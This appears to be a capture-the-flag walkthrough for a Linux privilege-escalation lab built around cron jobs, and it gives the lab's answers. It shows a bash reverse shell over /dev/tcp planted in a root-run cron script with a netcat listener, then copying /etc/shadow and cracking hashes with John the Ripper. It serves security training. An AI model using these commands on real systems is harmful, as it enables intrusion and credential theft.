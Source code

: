 ## Privilege Escalation Cron Jobs Solution

### Notes: 
- Check `etc/crontabs` for script files that are run as root but the current user can access. Can change the script for reverse shell.
- Check `etc/crontabs` for script files that have been deleted already but not removed from crontabs. Can create the same file.
  - Check path. If home/{user} included then can create in currrent users home folder. Also check if user has write permission on other path address
- tar, 7z, rsync etc. can be exploited using their wildcard feature

### How many user-defined cron jobs can you see on the target system?
1. Run `cat /etc/crontab`

![Screenshot 2024-02-08 at 10 20 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9cfb6faa-673c-4ad6-ae70-353c42eb8701)


**Answer: 4**

### What is the content of the flag5.txt file?
1. We can see in the crontabs there is a file /home/karen/backup.sh. Run the `cat /home/karen/backup.sh` to check its contents.
2. We also discover that we have access to the file.

![Screenshot 2024-02-08 at 10 31 06 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7357ebe4-23d2-48d1-b498-6ff72f231262)

4. Modify this file to cp flag5.txt to launch a reverse shell
5. Let's launch a listener at port 9999 in our kali machine. 
`nc -lvnp 1234`

6. Let's locate our serve IP by running `ifconfig` in our kali machine get the `inet` of `tun0`

7. Run `vim /home/karen/backup.sh` and modify the code to following to create a reverse shell. 
   ```
   #!/bin/bash
   
   bash -i  >& /dev/tcp/{tun0 inet ip}/1234 0>&1
   ```
8. Run `chmod +x backup.sh`
9. Wait on the listener terminal until reverse shell is activated.

![Screenshot 2024-02-09 at 12 41 26 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/56f31900-49b8-43bc-9694-d8e526fee1d9)

10. Run `cat /home/ubuntu/flag5.txt`

![Screenshot 2024-02-09 at 12 42 27 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/bfa16ef6-38d4-4803-998e-7bd30e76dd8d)

**Answer: THM-383000283**

### What is Matt's password? 
1. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine's `/etc/passwd` and `/etc/shadow`.
   
![Screenshot 2024-02-09 at 12 24 16 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/b8377ccf-22ed-46e2-bae6-ba36ac44a106)

![Screenshot 2024-02-09 at 12 25 52 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0e962f32-f3ca-4638-baf3-250ed0414ce3)

3. Unshadow the files:
   
   ```unshadow passwd.txt shadow.txt > passwords.txt```
   
4. Run john the ripper on `passwords.txt`
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![Screenshot 2024-02-09 at 12 28 56 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5f93b4cd-176f-41e6-855a-3006b6c44385)


**Answer: 123456**

